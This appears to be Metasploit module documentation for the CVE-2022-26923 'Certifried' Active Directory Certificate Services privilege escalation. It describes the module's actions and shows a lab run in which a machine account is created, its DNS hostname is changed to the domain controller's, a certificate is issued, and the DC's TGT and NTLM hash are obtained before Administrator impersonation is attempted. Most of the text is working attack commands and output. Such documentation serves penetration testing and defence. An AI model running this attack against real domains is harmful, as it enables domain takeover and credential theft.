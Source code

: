 ### REQUEST_CERT

Request a certificate with DNS host name matching the DC, which is stored
locally.

### AUTHENTICATE

Same as `REQUEST_CERT` but also authenticate as the DC account with Kerberos.
This TGT and the NT hash are retrieved.

### PRIVESC (default)

The full privilege escalation attack, which results in a TGS impersonating the
user set in the `IMPERSONATE` option (default is `Administrator`).

## Scenarios

### Windows Server 2019 Domain Controller with ADCS installed
```
msf6 auxiliary(admin/dcerpc/cve_2022_26923_certifried) > run verbose=true rhosts=192.168.100.104 username=Test password=123456 domain=mylab.local dc_name=DC02 ca=mylab-DC02-CA
[*] Running module against 192.168.100.104

[*] 192.168.100.104:445 - Requesting the ms-DS-MachineAccountQuota value to see if we can add any computer accounts...
[+] 192.168.100.104:445 - Successfully authenticated to LDAP (192.168.100.104:636)
[*] 192.168.100.104:445 - ms-DS-MachineAccountQuota = 10
[*] 192.168.100.104:445 - Connecting SMB with Test.mylab.local:123456
[*] 192.168.100.104:445 - Connecting to Security Account Manager (SAM) Remote Protocol
[*] 192.168.100.104:445 - Binding to \samr...
[+] 192.168.100.104:445 - Bound to \samr
[*] 192.168.100.104:445 - Using automatically identified domain: MYLAB
[+] 192.168.100.104:445 - Successfully created MYLAB\DESKTOP-E0SYYS6U$
[+] 192.168.100.104:445 -   Password: 4PuZlX57aULpEKXUZisjp227G0W0Rdvi
[+] 192.168.100.104:445 -   SID:      S-1-5-21-419547006-9459028-4093171872-12345
[*] 192.168.100.104:445 - Disconnecting SMB
[+] 192.168.100.104:445 - Successfully authenticated to LDAP (192.168.100.104:636)
[*] 192.168.100.104:445 - Retrieved original DNSHostame dc02.mylab.local for DC02
[*] 192.168.100.104:445 - Attempting to set the DNS hostname for the computer DESKTOP-E0SYYS6U$ to the DNS hostname for the DC: DC02
[*] 192.168.100.104:445 - Retrieved original DNSHostame dc02.mylab.local for DESKTOP-E0SYYS6U$
[+] 192.168.100.104:445 - Successfully changed the DNS hostname
[*] 192.168.100.104:445 - Connecting SMB with DESKTOP-E0SYYS6U$.mylab.local:4PuZlX57aULpEKXUZisjp227G0W0Rdvi
[*] 192.168.100.104:445 - Connecting to ICertPassage (ICPR) Remote Protocol
[*] 192.168.100.104:445 - Binding to \cert...
[+] 192.168.100.104:445 - Bound to \cert
[*] 192.168.100.104:445 - Requesting a certificate for user DESKTOP-E0SYYS6U$ - digest algorithm: SHA256 - template: Machine
[+] 192.168.100.104:445 - The requested certificate was issued.
[*] 192.168.100.104:445 - Certificate stored at: /home/msfuser/.msf4/loot/20230112165003_default_192.168.100.104_windows.ad.cs_852935.pfx
[*] 192.168.100.104:445 - Attempting PKINIT login for dc02$@mylab.local
[+] 192.168.100.104:445 - Successfully authenticated with certificate
[*] 192.168.100.104:445 - 192.168.100.104:445 - TGT MIT Credential Cache ticket saved to /home/msfuser/.msf4/loot/20230112165003_default_192.168.100.104_mit.kerberos.cca_654380.bin
[*] 192.168.100.104:445 - Trying to retrieve NT hash for dc02$
[+] 192.168.100.104:445 - 192.168.100.104:445 - Received a valid TGS-Response
[+] 192.168.100.104:445 - Found NTLM hash for dc02$: aad3b435b51404eeaad3b435b51404ee:a93d16873c9d49be9b1bce4359dcaa6d
[*] 192.168.100.104:445 - Getting TGS impersonating Administrator@mylab.local (SPN: cifs/DC02.mylab.local)
```